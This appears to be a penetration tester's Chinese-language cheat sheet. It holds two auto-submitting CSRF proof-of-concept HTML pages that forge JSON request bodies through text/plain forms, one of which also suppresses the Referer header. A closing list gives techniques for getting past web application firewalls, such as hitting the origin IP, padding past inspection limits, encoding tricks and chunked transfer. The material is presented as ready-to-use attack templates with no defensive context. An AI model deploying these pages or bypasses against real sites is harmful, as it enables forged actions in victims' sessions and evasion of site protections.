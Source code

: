 JSON格式CSRF 尝试text/plain是否可以成功请求

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="https://example.com/api/xxx" method="POST" enctype="text/plain">
      <input type="hidden" name='{"test":"x' value='y","email":"user@example.com"}'/>
      <input type="submit" value="Submit request"/>
    </form>
    <script>history.pushState('','','/');document.forms[0].submit();</script>
  </body>
</html>
```

Refer置空

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://example.com/api/xxx" method="POST" enctype="text/plain">
      <input type="hidden" name='{"test":"x' value='y","email":"user@example.com"}'/>
      <input type="submit" value="Submit request"/>
    </form>
    <script>history.pushState('','','/hello');document.forms[0].submit();</script>
  </body>
</html>
```


## WAF

- 请求真实ip绕过waf：部分waf部署架构的特性，部分waf并不是直接串在目标站点线路上，而是通过DNS解析的形式部署，此时可以先探测到目标站点的真实ip，直接请求ip以此绕过waf的检测。
- 检测内容范围绕过：waf性能限制，检测特定内容前几k或几十k的内容，然后在此特定内容段内填充无用数据，payload放于无用数据后，以此绕过检测
- 编码、大小写、双写、内联注释等
- 分块传输